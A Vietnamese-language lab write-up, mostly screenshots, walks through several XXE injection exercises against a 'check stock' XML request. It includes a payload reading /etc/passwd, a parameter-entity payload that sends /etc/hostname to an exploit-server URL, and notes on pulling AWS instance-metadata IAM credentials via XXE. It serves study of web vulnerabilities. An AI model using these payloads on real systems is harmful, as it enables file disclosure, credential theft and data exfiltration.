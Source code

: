 ![image](https://github.com/user-attachments/assets/9ac75822-f294-45ca-a3b0-8fa91d1c4b73)![image](https://github.com/user-attachments/assets/fec71b7a-2c45-415e-bc58-6dcd860f9253)

Trong web có cái check stock dùng xml:

![image](https://github.com/user-attachments/assets/5d8bf9eb-857a-497a-8764-918e770534d9)

![image](https://github.com/user-attachments/assets/4befdeb1-bce8-42c9-9264-2c95f21b5e93)

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE lmao [ <!ENTITY lmao1 SYSTEM "file:///etc/passwd"> ]>

<stockCheck>
<productId>&lmao1;
</productId><storeId>2</storeId></stockCheck>
```

Tạo 1 cái ENTITY mở file /etc/passwd

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/3d647ea7-d282-493b-adf2-35668ea33d5c)

![image](https://github.com/user-attachments/assets/c865df3e-c259-4da1-9b57-01d8b7942010)

Lần này làm giống bài cũ nhưng không có được

![image](https://github.com/user-attachments/assets/eea7330a-df34-40ad-83f6-c94ce3f10446)

Tôi tra mạng thì ra được cái này [Retrieve security credentials from instance metadata](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/instance-metadata-security-credentials.html):

![image](https://github.com/user-attachments/assets/50eb2ec6-2623-483c-ae7f-d10fb2c9a0bd)

Và tôi thêm cái latest/meta-data/iam/security-credentials/admin vào sau, nó ra:

![image](https://github.com/user-attachments/assets/7b1516ac-44b1-4709-b5a8-0f014b380a74)

Xong

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/754be58c-4156-43b5-9d8c-4e6c26ebeb6f)

Đây là req check stock:

![image](https://github.com/user-attachments/assets/27831c9a-8d98-4212-b0b0-ce016e6e3502)

Tôi thử cái payload cũ thì không có được:

![image](https://github.com/user-attachments/assets/763c56ac-10ff-4a1d-b06b-bbff6673efec)

Tôi thử thay bằng cái link burp collaborator vào:

![image](https://github.com/user-attachments/assets/7d700cd7-60c0-4126-a3bd-68c69c17cc46)

![image](https://github.com/user-attachments/assets/04319aa1-4a6b-4fde-b37d-92d3d547b3ee)

Và nó có gửi req tới, xong

![image](https://github.com/user-attachments/assets/538c6c88-7493-4097-9389-4af04c03d7f5)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/369a2da2-7c6c-4b0c-87d6-fba9b3b676cd)

Lần này thì bài không cho tôi dùng cái payload cũ nữa:

![image](https://github.com/user-attachments/assets/29a4a0b4-de77-41f1-a90d-64e8a47adb16)

Có cái này không cần phải gọi hẳn ra trong [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection):

![image](https://github.com/user-attachments/assets/4d71462f-9c22-462d-98e4-0d5269a441f4)

![image](https://github.com/user-attachments/assets/49e81264-d9cf-4dcc-9302-1e478b4e3ed9)

Mặc dù nó nhìn ra lỗi nhưng bên collaborator vẫn có req được gửi tới:

![image](https://github.com/user-attachments/assets/1b1454bd-61fa-4015-8bbd-9ca672a93bbe)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/e4528b8e-ab5f-42bd-b40d-8917ba9ee1e0)

Vẫn là cái req đấy:

![image](https://github.com/user-attachments/assets/7abfc6fd-4193-48b7-bee4-7793b9ea7ad4)

Vẫn là payload cũ và nó vẫn được:

![image](https://github.com/user-attachments/assets/3cabee7b-743e-4618-aece-2a78da12c9b6)

![image](https://github.com/user-attachments/assets/98f51724-33db-4bbe-ba5d-ff321fae1999)

Ở đây tôi tạo 1 thực thể trỏ đến link của server exploit và chạy cái này:

![image](https://github.com/user-attachments/assets/cd1899b1-00a4-424e-8e73-481be6147024)

```
<!ENTITY % hostnamefile SYSTEM "file:///etc/hostname">
<!ENTITY % lmao1 "<!ENTITY &#x25; lmao2 SYSTEM 'https://exploit-0aec009d04696226814e60da01de004c.exploit-server.net/exploit/?x=%hostnamefile;'>">
%lmao1;
%lmao2;
```
Thì cái này sẽ mở file /etc/hostname và gán vào param exploit của link server exploit, giờ thì vào access log là có nội dung của file đấy:

![image](https://github.com/user-attachments/assets/d8580921-f74a-4a2e-b01d-1b6dab2b7525)

<h1>---------------------------------------------------------</h1>
<br>

![image](https://github.com/user-attachments/assets/9da47469-ce51-4e82-9bdb-0cac0459a7de)

Vẫn như bài lab cũ, vẫn là check stock:

![image](https://github.com/user-attachments/assets/4f343042-1aa6-45f2-98c6-f565f386f6a0)

Lần này thì nhìn có dài dài hơn nhưng vẫn gửi được req đến burp collaborator:

![image](https://github.com/user-attachments/assets/88f6f8e9-94a7-4716-b8c3-2b003dc7c6a0)

![image](https://github.com/user-attachments/assets/e3c30854-2325-4132-a498-ac5cd082eafa)

Đổi từ burp collaborator sang link của server exploit và trong server exploit thì để body là cái này:

![image](https://github.com/user-attachments/assets/c84e4d56-928c-4eac-999f-bb2dbdd8b5e6)

Và cuối cùng gửi req là xong:

![image](https://github.com/user-attachments/assets/471678c0-1cd7-446f-ae0c-84492506231d)

<h1>---------------------------------------------------------</h1>
<br>
































































